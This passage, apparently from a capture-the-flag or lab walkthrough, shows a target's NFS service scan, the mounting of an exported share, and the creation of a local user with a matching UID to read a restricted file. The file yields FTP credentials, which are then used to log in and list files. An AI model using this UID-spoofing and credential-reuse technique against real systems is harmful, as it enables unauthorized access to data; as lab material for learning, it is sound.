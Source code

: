   ```
  |   100021  1,3,4      45314/udp   nlockmgr
  |   100227  2,3         2049/tcp   nfs_acl
  |   100227  2,3         2049/tcp6  nfs_acl
  |   100227  2,3         2049/udp   nfs_acl
  |_  100227  2,3         2049/udp6  nfs_acl
  2049/tcp  open  nfs      2-4 (RPC #100003)
  34480/tcp open  nlockmgr 1-4 (RPC #100021)
  35463/tcp open  mountd   1-3 (RPC #100005)
  46146/tcp open  mountd   1-3 (RPC #100005)
  56757/tcp open  mountd   1-3 (RPC #100005)
  Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
  ```
  
- We can't do Anonymous access to FTP so let's check NFS shares.

  ```
  showmount -e 10.10.106.87 
  Export list for 10.10.106.87:
  /mnt/share *

  sudo mount -t nfs 10.10.106.87:/mnt/share temp_folder

  cd temp_folder 
  cd: permission denied: temp_folder
  ```
  
- If you mount a folder that contains files and folders only accessible by some user (by UID), you can create a user locally with that UID and then access it.

  ```
  sudo useradd bimbo -u 1003
  sudo passwd bimbo
  
  su bimbo         
  Password: 
  $ id
  uid=1003(bimbo) gid=1003(bimbo) groups=1003(bimbo)
  $ /bin/bash
  $ cd temp_folder/
  $ ls -al
  total 12
  drwx------ 2 bimbo    bimbo    4096 Aug  8  2023 .
  drwxrwxr-x 3 me       me       4096 Jun  7 19:48 ..
  -rwx------ 1 bimbo    bimbo      46 Aug  8  2023 for_employees.txt
  $ cat for_employees.txt 
  ftp creds :
  
  ftpuser:W3stV1rg1n14M0un741nM4m4
  ```

- Now we have FTP credentials, login and download all the files.

  ```
  ftp 10.10.106.87

  230 Login successful.
  Remote system type is UNIX.
  Using binary mode to transfer files.
  ftp> pwd
  Remote directory: /
  ftp> ls -al
  229 Entering Extended Passive Mode (|||8165|)
  150 Here comes the directory listing.
  drwxr-xr-x    2 1002     1002         4096 Aug 08  2023 .
  drwxr-xr-x    2 1002     1002         4096 Aug 08  2023 ..
  -rwxr-xr-x    1 1002     1002          220 Aug 08  2023 .bash_logout
  -rwxr-xr-x    1 1002     1002         3771 Aug 08  2023 .bashrc
  ```
